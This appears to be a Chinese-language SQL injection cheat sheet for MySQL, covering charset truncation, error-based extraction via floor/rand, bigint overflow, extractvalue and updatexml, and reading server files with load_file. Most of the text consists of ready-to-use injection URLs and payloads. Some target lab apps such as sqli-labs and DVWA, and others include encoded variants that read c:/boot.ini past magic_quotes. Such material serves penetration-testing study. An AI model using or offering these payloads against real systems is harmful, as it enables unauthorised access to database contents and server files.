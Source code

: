 #### 字符集问题
mysql 在存储数据的时候会根据当前数据库的字符集来校验数据，发现非法数据时会抛弃其后续数据。  
当表的字符集是utf8_general_ci 时，测试SQL：`Insert into table values (concat('ab', 0x80, 'cd'))`，因为0x80不是有效的UTF-8字符，所以只有ab被写入数据库中，cd会被截断。  
当表的字符集是gbk_chinese_ci 时，测试SQL：`Insert into table values (concat('ab', 0x8027, 'cd'))`，因为0x8027不是有效的gbk字符，所以只有ab被写入数据库中，cd会被截断。  

#### floor rand 报错
RAND() in a WHERE clause is re-evaluated every time the WHERE is executed.  
You cannot use a column with RAND() values in an ORDER BY clause, because ORDER BY would evaluate the column multiple times.  
也就是说在 group by 查询以及插入临时表时都会计算 rand()，如果两次结果不一样，就会出错。  
```
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' and 1=0 union select 1,count(*), 
concat((select email_id from emails where id=5),0x2a,floor(rand(0)*2))x from users group by x--+
```
#### bigint 报错
我们知道，如果一个查询成功返回，其返回值为0，所以对其进行逻辑非的话就会变成1，举例来说，如果我们对类似 `(select*from(select user())x)` 这样的查询进行逻辑非的话，返回值就是1，对 0 取反得到无符号的最大BIGINT值，1 减去最大 bigint 值导致 BIGINT value is out of range 错误。  
`http://localhost/dvwa/vulnerabilities/sqli/?id=1' or !(select*from(select user())x)-~0-- -&Submit=Submit#`

#### extractvalue, updatexml 报错
`and 1=(updatexml(1,concat(0x3a,(select user())),1))`  
`and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));`


## 二、读文件
 
### 判断权限  
`and (select count(*) from mysql.user)>0` /&#42; 返回正常,说明有读写权限（file_priv权限）  
`and (select count(*) from mysql.user)>0` /&#42;  返回错误则无  

（超级用户的系统文件无法读，超过大小的文件无法读，只有php+mysql的需要考虑魔术引号）  
 
load_file() 函数（win系统的C:\boot.ini）  
- 文件必须在服务器上。  
- LOAD_FILE()函数操作文件的当前目录是@@datadir 。  
- 需要连接数据库的用户有file_priv 权限，且启动mysqld 用户必须拥有对此文件读取的权限。  
- 如果secure_file_priv非空，则只能读取对应目录下的文件
> For security reasons, when reading text files located on the server, the files must either reside in the database directory or be readable by all. Also, to use LOAD DATA INFILE on server files, you must have the **FILE privilege**.
- 文件大小必须小于 max_allowed_packet。  
- @@max_allowed_packet的默认大小是1047552 字节.  

`test.php?id=1'/**/union/**/select/**/1,load_file('c:/boot.ini')`  //magic_quotes_gpc = off  
`test.php?id=1'/**/union/**/select/**/1,load_file(char(99,58,47,98,111,111,116,46,105,110,105))`  //magic_quotes_gpc = on/用ascii 编码下即可  
`test.php?id=1'/**/union/**/select/**/1,load_file(0x633A5C626F6F742E696E69),3/*`   //magic_quotes_gpc = on/用16进制即可  
 